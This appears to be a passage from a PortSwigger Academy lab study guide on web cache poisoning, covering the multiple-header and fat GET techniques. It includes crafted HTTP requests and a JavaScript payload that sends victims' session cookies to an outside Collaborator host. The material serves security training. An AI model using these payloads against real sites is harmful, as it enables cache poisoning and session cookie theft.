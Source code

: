 >Identify that cache hit headers in responses, then test if the target support ```X-Forwarded-Host``` or ```X-Forwarded-Scheme``` headers. These headers can allow for the stealing of victim session cookie.  
  
>Identify if adding the two **Forwarded** headers to the GET ```/resources/js/tracking.js``` request, result in a change to the location response header. This ***identify*** positive poisoning of the cache with multiple headers.  

```html
GET /resources/js/tracking.js?cb=123 HTTP/2
Host: TARGET.net
X-Forwarded-Host: EXPLOIT.net
X-Forwarded-Scheme: nothttps
```  

![x-forwarded-scheme not https](images/x-forwarded-scheme-nohttps.png)  

>On the exploit server change the file path to ```/resources/js/tracking.js``` and the update the poison request ```X-Forwarded-Host: EXPLOIT.net``` header. Place the payload on exploit server body.  

```html
document.location='https://Collaborator.com/?poisoncache='+document.cookie;
```  

>Remove the ```cb=123``` cache **buster**, and then poison the cache until the victim is redirected to the exploit server payload tracking.js to steal session cookie.  

[PortSwigger Lab: Web cache poisoning with multiple headers](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-multiple-headers)  

### Duplicate Parameter Fat Poison  

>Identify that the application is vulnerable to duplicate parameter poisoning, by adding a second parameter with same name and different value the response reflected the injected value.  

![countrycode source code](images/countrycode-source-code.png)  

```
GET /js/geolocate.js?callback=setCountryCookie&callback=FUZZERFunction; HTTP/2
```  

>The function that is called in the response by passing in a duplicate callback parameter is reflected. Notice in response the cache key is still derived from the original callback parameter in the GET request line.  

![fat-get-request](images/fat-get-request.png)  

>Not able to make cookie stealer payload working......  

[PortSwigger Lab: Web cache poisoning via a fat GET request](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-fat-get)  
  
-----

## Host Headers  

[Spoof IP Address](#spoof-ip-address)  
[Bypass verify Host header](#Bypass-verify-Host-header)    
[HOST Connection State](#host-connection-state)  
[Host Routing based SSRF](#host-routing-based-ssrf)  
[SSRF via flawed Host request parsing](#absolute-get-url--host-ssrf)  
